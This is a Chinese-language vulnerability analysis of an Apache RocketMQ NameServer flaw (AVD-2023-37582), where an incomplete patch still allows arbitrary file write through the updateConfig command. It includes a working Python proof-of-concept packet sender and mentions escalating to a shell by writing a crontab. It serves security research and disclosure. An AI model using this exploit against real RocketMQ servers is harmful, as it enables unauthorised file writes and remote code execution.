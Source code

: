 # 漏洞描述

最近，阿里云又发布了RocketMQ的漏洞通告，因为才分析过这个漏洞，所以再来看一下

![image-20230712230821592](images/1.png)

一看是由于上次没有修复完善的原因，拉一版修复的源码再来看一下。

# 漏洞分析

![image-20230712231152348](images/2.png)

修补的地方在namesrv，还是updateconfig这个地方，这里可以用RocketMQ自己的协议，用不同的code调用过来

![image-20230712231256433](images/3.png)

![image-20230712231306547](images/4.png)

这里是318，namesrv的端口是9876

![image-20230712231344255](images/5.png)

之前的漏洞，可以通过update造成任意文件写入，而补丁则把控制文件路径的properties加入来黑名单，跟进update

```
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}
```

因为之前的了解，就直接跟到persist了

![image-20230712231550431](images/6.png)

在string2File这里造成的任意文件写入，第二个参数是filename，所以跟进到getStorePath观察一番

![image-20230712231657407](images/7.png)

最后的返回的realStorePath在这里赋值，storePathFiled是一个Field实例化的类，这个类是用于反射的，看到它时configStorePath字段，所以这里全是就是获取的其实是storePathObject中configStorePath的值

![image-20230712231907181](images/8.png)

这些都是我们在RocketMQ的协议中的body可以控制的，并且没有被过滤，过滤的properties为configStorePathName

也印证了为什么这次的补丁时把configStorePathName改为configStorePath

# 漏洞复现

```
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\naaaConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

![image-20230712232124318](images/9.png)

至于漏洞通告中写到的远程代码执行，在5.1.1版本之前可以结合FilterServerManager这个类的心跳机制，在unix和linux下可以命令执行，但是在5.1.0到5.1.1的版本更新中删除了这个类，只能用写crontab的方式来获取shell了



参考链接：

https://github.com/apache/rocketmq/pull/6843/files

https://avd.aliyun.com/detail?id=AVD-2023-37582